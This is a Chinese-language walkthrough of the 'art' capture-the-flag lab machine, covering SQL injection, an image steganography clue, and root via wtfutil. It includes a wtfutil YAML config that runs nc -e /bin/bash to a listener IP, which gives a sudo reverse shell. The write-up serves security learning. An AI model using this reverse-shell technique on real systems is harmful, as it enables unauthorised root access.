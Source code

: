 <a name="Kuww3"></a>
### art
 web端有几张图片，简单分析分析不出什么东西，目录也没扫到什么<br />源码有一句说要解决tag的参数问题，看了wp才知道tag是个参数（这种还fuzz不太出来，以为就是知道参数，也不知道后续可以怎么利用）<br />![截屏2024-03-14 17.14.27.png](https://cdn.nlark.com/yuque/0/2024/png/40549096/1710407673781-a5ab8954-944f-4b70-a8e4-8323773eb29b.png#averageHue=%23050505&clientId=u8201bbc4-c50c-4&from=drop&height=445&id=iJf0j&originHeight=1388&originWidth=1524&originalType=binary&ratio=2&rotation=0&showTitle=false&size=286880&status=done&style=none&taskId=u51febed4-8a15-407a-b879-01605eec330&title=&width=489)<br />(后来看到源码）<br />呃，可以sql注入，sqlmap跑一下<br />![截屏2024-03-14 16.50.09.png](https://cdn.nlark.com/yuque/0/2024/png/40549096/1710406212797-91facff6-2375-4073-a388-ff4c08a9910d.png#averageHue=%23f7f7f7&clientId=u8201bbc4-c50c-4&from=drop&id=u22693d0d&originHeight=306&originWidth=1408&originalType=binary&ratio=2&rotation=0&showTitle=false&size=52486&status=done&style=none&taskId=u23ddcf43-39b8-4db5-a3db-160b9442137&title=)<br />可以看到有这几张图片<br />![截屏2024-03-14 16.51.06.png](https://cdn.nlark.com/yuque/0/2024/png/40549096/1710406270631-faa4c0f3-7ecd-4561-b058-66f0e9409216.png#averageHue=%23050505&clientId=u8201bbc4-c50c-4&from=drop&id=u75e1a7f9&originHeight=564&originWidth=962&originalType=binary&ratio=2&rotation=0&showTitle=false&size=124591&status=done&style=none&taskId=u250f2432-595b-42d4-b8db-fa016b65fb3&title=)<br />那张dsa的标签比较特殊，下载到本地用工具分析，有一个yes.txt<br />![截屏2024-03-14 16.51.49.png](https://cdn.nlark.com/yuque/0/2024/png/40549096/1710406312623-327d9283-55b7-4380-bfd4-9b40856b58c0.png#averageHue=%23040404&clientId=u8201bbc4-c50c-4&from=drop&id=u8b7231f2&originHeight=364&originWidth=1270&originalType=binary&ratio=2&rotation=0&showTitle=false&size=99759&status=done&style=none&taskId=u26a12358-8b02-4cbe-94d8-156c9fc0de9&title=)<br />给了一个lion的账号密码<br />![截屏2024-03-14 16.52.43.png](https://cdn.nlark.com/yuque/0/2024/png/40549096/1710406366424-6bd98d8e-9380-49e9-aafb-dbfa12861b69.png#averageHue=%23050505&clientId=u8201bbc4-c50c-4&from=drop&id=uea7b874b&originHeight=372&originWidth=532&originalType=binary&ratio=2&rotation=0&showTitle=false&size=60564&status=done&style=none&taskId=u8daa20a1-34ce-4cbe-a88f-7532892f591&title=)<br />登陆即可，以上部分有点解谜
<a name="IMWcG"></a>
#### 提权
![截屏2024-03-14 16.54.16.png](https://cdn.nlark.com/yuque/0/2024/png/40549096/1710406459498-717250d9-b093-4d78-a9d3-ed6d5e0774ed.png#averageHue=%23060606&clientId=u8201bbc4-c50c-4&from=drop&id=ua3da2eca&originHeight=350&originWidth=1242&originalType=binary&ratio=2&rotation=0&showTitle=false&size=125023&status=done&style=none&taskId=ua1f8efce-edbf-4baf-b472-f65cb273d5d&title=)<br />有个wtfutil可以用，最开始都不知道能干嘛，也查不到提权方式，漏洞库也找不到可利用的脚本<br />看一下它使用情况，直接执行后是个面板，给出了配置下文件<br />![截屏2024-03-14 17.06.01.png](https://cdn.nlark.com/yuque/0/2024/png/40549096/1710407182935-bedf9829-a7fd-4b11-8849-db8a16655485.png#averageHue=%23060606&clientId=u8201bbc4-c50c-4&from=paste&height=760&id=u0a91deb3&originHeight=1520&originWidth=2054&originalType=binary&ratio=2&rotation=0&showTitle=false&size=498494&status=done&style=none&taskId=u478ead41-8ae1-412a-befd-1e2f36c2824&title=&width=1027)<br />这wp的帮助下，**发现-c可以修改配置文件，思路就是我们自己搞一个配置文件，然后执行即可**<br />![截屏2024-03-14 17.07.36.png](https://cdn.nlark.com/yuque/0/2024/png/40549096/1710407293303-9561f45f-dd61-4152-8343-1b60c50f7f88.png#averageHue=%23070606&clientId=u8201bbc4-c50c-4&from=paste&height=500&id=uc5eabc12&originHeight=1000&originWidth=1790&originalType=binary&ratio=2&rotation=0&showTitle=false&size=237598&status=done&style=none&taskId=u5471e31d-985d-4293-afc6-1507a1521e4&title=&width=895)<br />![截屏2024-03-14 17.07.11.png](https://cdn.nlark.com/yuque/0/2024/png/40549096/1710407234840-73446fc6-f2da-4b9c-bf19-b6b71cef42f7.png#averageHue=%23050505&clientId=u8201bbc4-c50c-4&from=drop&height=701&id=u0bd7e1bd&originHeight=1328&originWidth=902&originalType=binary&ratio=2&rotation=0&showTitle=false&size=174257&status=done&style=none&taskId=u45462c6f-1737-4cb8-bc07-5981e06e289&title=&width=476)
```javascript
wtf:
  grid:
    columns: [20, 20]
    rows: [3, 3]
  refreshInterval: 1
  mods:
    uptime:
      type: cmdrunner
      args: ['-e','/bin/bash','192.168.64.3','8888'] // 参数
      cmd: "nc" // 命令
      enabled: true
      position:
        top: 0
        left: 0
        height: 1
        width: 1
      refreshInterval: 30
```
然后kali开启监听，靶机运行时-c=自己写的配置文件路径，sudo执行就能拿到一个反弹shell
<a name="xAL8Y"></a>
#### 抽象
解密，拿到一个新文件还是要**从它本身的功能寻**找提权思路，分析它文件，就像wtfutil可以自己配置文件，那我们就搞一个新的（语法可以参考自带的）<br />stegseek的使用，sql注入的发现，还有一些猜谜
